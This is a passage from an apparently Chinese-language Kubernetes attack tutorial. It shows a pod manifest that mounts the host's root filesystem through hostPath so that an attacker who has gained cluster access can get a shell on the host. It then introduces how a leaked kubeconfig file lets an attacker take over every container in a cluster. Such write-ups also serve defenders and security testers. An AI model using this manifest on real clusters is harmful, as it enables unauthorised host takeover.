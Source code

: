 [![1640362696372.png](assets/1698894658-fd4fa3d3aa817d72ffae7e6b6b8d5a5b.png)](https://storage.tttang.com/media/attachment/2021/12/26/696ff0dd-e014-4abc-b777-8c0f167edf86.png)  
获取访问后直接创建特权容器即可 getshell

```bash
apiVersion: v1
kind: Pod
metadata:
  name: nginx
spec:
  containers:
  - image: nginx
    name: container
    volumeMounts:
    - mountPath: /tmp
      name: volume
  volumes:
  - name: volume
    hostPath:
      path: /
```

##### [K8s Config 文件泄露](#toc_k8s-config)

如果攻击者通过 webshell、GitHub 等特定方式拿到该 K8s 配置的 Config 文件，就可以用该文件操作集群，从而接管所有容器。
